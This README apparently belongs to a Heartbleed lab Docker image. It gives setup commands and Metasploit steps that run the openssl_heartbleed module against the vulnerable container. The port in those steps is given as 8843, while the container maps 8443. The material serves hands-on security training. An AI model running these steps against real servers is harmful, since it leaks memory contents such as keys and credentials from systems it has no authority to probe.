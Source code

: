 # HeartBleed Lab Docker Image

Video PoC :- https://youtu.be/qYSAgtG81Ic

# Usage

* docker pull jas9reet/heartbleed

* docker run -d -p 8443:443 jas9reet/heartbleed

* docker ps

* docker exec -it container id /bin/bash

* /etc/init.d/mysql start

# Vulnerable Application Access

* YOUR-IP-ADDRESS:8443

# Exploitation Commands

* msfconsole
* use auxiliary/scanner/ssl/openssl_heartbleed
* set VERBOSE true
* set RHOSTS Vulnerable-IP-ADDRESS
* set RPORT 8843
* run
